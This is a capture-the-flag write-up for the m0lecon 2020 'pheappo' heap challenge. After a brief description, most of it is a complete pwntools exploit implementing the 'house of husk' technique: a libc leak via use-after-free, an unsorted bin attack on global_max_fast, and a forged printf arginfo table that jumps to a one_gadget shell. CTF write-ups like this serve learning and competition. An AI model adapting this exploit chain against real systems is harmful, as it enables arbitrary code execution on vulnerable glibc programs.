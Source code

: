 ```yaml
---
ctf_name: "m0lecon 2020"
layout: writeup
title:	"pheappo"
date:	2020-11-16
category: "pwn"
author: "nick0ve"
---
```


### Chall Description

That was a standard heap pwnable with some restrictions:
- Can alloc only chunks with size in range(1040, 38400), which goes to unsorted bin after free
- UAF possible, but not double free because of some additionals checks enforced with the global array `bitmap`
- Can't overwrite malloc_hook and free_hook

To exploit under those conditions I ended up using this known technique which i didn't know the existence of, [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507), pretty cool exploit chain which make use of a very strange printf functionality. Did you know that...

> The GNU C Library lets you define your own custom conversion specifiers? 

No? Well neither did I. Find out more about this at [http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html](http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)

The exploit is mainly an implementation of `house-of-husk` technique so I'm not gonna explain it deeply, since you can find more detailed information in the linked post. I tried to divide the exploit in sections like the post author's did, so it should be easier to follow it. 

Thanks to the organizers for those nice challenges, actually learnt a lot of new stuffs :).

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF("pheappo")
libc = ELF("libc.so.6")

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("challs.ctf.m0lecon.it", 9001)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': "./libc.so.6"}, *a, **kw)

def flush():
    return io.recvuntil(b'Choice: ', drop=True)

def create(sz):
    io.sendline(b'1')
    io.recvuntil(b'Size: ')
    io.sendline(f'{sz}'.encode())
    return flush()

def read(idx):
    io.sendline(b'2')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    leak = io.recvuntil(b'<=== Menu ===>', drop=True)
    flush()
    return leak

def write(idx, data):
    io.sendline(b'3')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    io.recvuntil(b'Data: ')
    io.sendline(data)
    return flush()

def delete(idx):
    io.sendline(b'4')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    return flush()

def quit():
    io.sendline(b'5')


if __name__ == "__main__":       
    io = start()
    
    # 1) Leak libc address
    create(1040) # to leak libc_main_arena with UAF
    '''
    2 chunks to achieve relative a overwrite with free
    more on this tecnique @ https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/
    - briefly, after setting global_max_fast to a big value, every chunk is gonna be treated as a 
    fastbin chunk, so every free is gonna put the chunk in main_arena.fastbinsY[out_of_bound_idx], achieving
    an out of bound write of a heap pointer in the libc
    E.G)
        - size=1040 + 0x10*i writes to main_arena + 528 + i*8
    '''
    get_i = lambda off_from_arena : (off_from_arena - 528) // 8
    create(1040 + 0x10 * get_i(libc.sym.__printf_arginfo_table - libc.sym.main_arena))
    create(1040 + 0x10 * get_i(libc.sym.__printf_function_table - libc.sym.main_arena))

    delete(0)
    chunk0leak = read(0)
    # leak &main_arena.unsortedbin
    libc_mainarena_unsortedbin = u64(chunk0leak[:8])

    libc.address = libc_mainarena_unsortedbin - 2116768
    log.info(f'libc_base: {libc.address:x}')
    onegadget = libc.address + 0x4f322 - 0x1e7000
    log.info(f'one_gadget: 0x{onegadget:x}')

    # forge fake __printf_arginfo_table so that tbl['%d'] = one_gadget
    fake_tbl = flat({ 
        784 : onegadget, # 0x4f322 0x10a38c
    }, filler=b'\x00')

    # 2) Make global_max_fast large with unsorted bin attack
    global_max_fast = libc.address + 2124096
    log.info('Do unsorted bin attack to overwrite global_max_fast...')
    where = global_max_fast-0x10
    write(0, p64(0) + p64(where))
    create(1040)

    # 3) Write the address of a fake arginfo table to __printf_arginfo_table by "relative overwrite"
    log.info('Write chunk1payload_ptr-0x10 to __printf_arginfo_table...')
    write(1, fake_tbl)
    delete(1)

    # 4) Write a non-null value to __printf_function_table by "relative overwrite"
    log.info('Write chunk2payload_ptr-0x10 to __printf_function_table...')
    delete(2)

    # 5) call printf to call onegadget
    log.success("Get shell")
    quit()

    io.interactive()
```